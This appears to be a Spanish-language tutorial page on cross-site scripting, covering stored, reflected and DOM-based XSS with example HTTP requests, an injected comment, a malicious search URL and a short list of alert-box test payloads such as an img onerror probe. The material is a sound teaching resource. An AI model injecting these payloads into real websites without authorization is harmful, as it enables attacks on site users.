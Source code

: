 # Cross-Site Scripting (XSS)

## Stored XSS

Stored cross-site scripting surgen cuando una aplicación recibe datos de una fuente que no es confiable e incluye esos datos dentro de sus respuestas HTTP posteriores de manera insegura.

```c
POST /post/comment HTTP/1.1 
Host: vulnerable-website.com 
Content-Length: 100 

postId=3&comment=This+post+was+extremely+helpful.&name=Carlos+Montoya&email=carlos%40normal-user.net
```

Una vez enviado este comentario, cualquier usuario que visite la entrada del blog recibirá lo siguiente dentro de la respuesta de la aplicación:

```c
<p>This post was extremely helpful.</p>
```

Suponiendo que la aplicación no realice ningún otro procesamiento de los datos, un atacante puede enviar un comentario malicioso como éste:

```c
comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E
```

Cualquier usuario que visite la entrada del blog recibirá ahora lo siguiente dentro de la respuesta de la aplicación:

```c
<p><script>/* Bad stuff here... */</script></p>
```

El script suministrado por el atacante se ejecutará entonces en el navegador del usuario víctima, en el contexto de su sesión con la aplicación.


### XSS Testing Payloads

```html
<script>alert(window.origin)</script>

<p>Test Xss</p>
```

```c
<script>alert(document.domain)</script> 

<img src=1 onerror=alert(1)>
```

- [https://portswigger.net/web-security/cross-site-scripting/stored](https://portswigger.net/web-security/cross-site-scripting/stored)


## Reflected XSS

El cross-site scripting reflejado (o XSS) surge cuando una aplicación recibe datos en una petición HTTP e incluye esos datos en la respuesta inmediata de forma insegura.

Supongamos que un sitio web tiene una función de búsqueda que recibe el término de búsqueda introducido por el usuario en un parámetro URL:

```c
https://insecure-website.com/search?term=gift
```

La aplicación se hace eco del término de búsqueda suministrado en la respuesta a esta URL:

```c
<p>You searched for: gift</p>
```

Suponiendo que la aplicación no realiza ningún otro procesamiento de los datos, un atacante puede construir un ataque como este:

```c
https://insecure-website.com/search?term=<script>/*+Bad+stuff+here...+*/</script>
```

Esta URL da como resultado la siguiente respuesta:

```c
<p>You searched for: <script>/* Bad stuff here... */</script></p>
```

- [https://portswigger.net/web-security/cross-site-scripting/reflected](https://portswigger.net/web-security/cross-site-scripting/reflected)

## DOM XSS

El XSS basado en DOM se procesa completamente en el lado del cliente a través de JavaScript. El DOM XSS se produce cuando se utiliza JavaScript para cambiar el origen de la página a través del Modelo de Objetos del Documento (DOM).

```c
document.write('... <script>alert(document.domain)</script> ...');
```